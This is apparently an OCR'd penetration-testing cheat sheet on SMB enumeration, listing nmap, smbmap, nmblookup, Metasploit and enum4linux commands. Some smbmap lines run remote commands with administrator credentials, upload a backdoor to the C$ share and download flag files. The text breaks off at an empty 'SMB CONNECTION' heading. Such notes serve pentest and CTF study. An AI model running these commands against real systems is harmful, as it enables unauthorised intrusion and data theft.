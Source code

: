 
smb-enum-services –script-args smbusername=administrator,smbpassword=passwordadmin IP (enumerate services used)
  

smb-shares,smb-ls –script-args smbusername=administrator,smbpassword=passwordadmin IP (enumerate the shared contents and what is in there [ls])
  

2.  SMB MAP


smbmap -u guest -p “” -d . -H IPobj (where u is the SMB user, p is password, d is the directory you want to list, & H is the objective host)
  

smbmap -u administrator -p passadmin -d . -H IPobj (to see the permissions of the administrator)
  

smbmap -H IPobj -u administrator -p passadmin -x ‘ipconfig’ (with this command we can do Remote Code Execution)
  

smbmap -H IPobj -u administrator -p ‘passadmin’ -L (this command lists the shares)


smbmap -H IPobj -u administrator -p ‘passadmin’ -r ‘C$’ (list the contents of a directory in specific, in this case "C")

  
smbmap -H IPobj -u administrator -p ‘passadmin’ –upload ‘/ruta/archivolocal’ ‘C$\backdoor’ (this command is for uploading a file [for example a backdoor])

  
smbmap -H IPobj -u administrator -p ‘passadmin’ –download ‘C$\flag.txt’ (to download files to our local machine)


3.  nmblookup
  

nmblookup -h
  

nmblookup -A IPobj (this shows different groups and what connections do [in <nº>], a 20 that we can connect to that resource)


4.  Metasploit enum


SMB 1: use auxiliary/scanner/smb/smb_version (Windows & SMB version)

SMB2: use auxiliary/scanner/smb/smb2 (to see if it support SMBv2)

SMB3: use auxiliary/scanner/smb/smb_enumshares (enum shares & read/write permissions, types of shares, directories, files, time stamps, etc…)


5.  enum4linux


enum4linux -h (help panel, use the parameter that scans everything or simply do enum4linux IP)



6.  SMB CONNECTION
  
